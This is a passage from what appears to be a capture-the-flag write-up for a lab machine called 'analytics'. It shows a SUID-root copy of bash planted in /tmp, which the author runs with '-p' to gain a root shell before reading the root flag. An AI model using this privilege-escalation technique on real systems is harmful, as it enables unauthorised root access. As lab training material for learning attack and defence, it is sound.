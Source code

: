 ```bash
-rwxrwx--- 1 metalytics metalytics  16K Jan 20 18:09 rootshell
drwx------ 2 metalytics metalytics 4.0K Jan 20 18:13 tmux-1000
-rwsr-xr-x 1 root       metalytics 1.4M Jan 20 18:28 bash
```

Then I executed the copied `bash` to become root.

```bash
metalytics@analytics:~$ /tmp/bash -p
bash-5.1# whoami
root

bash-5.1# cat /root/root.txt
REDACTED
```
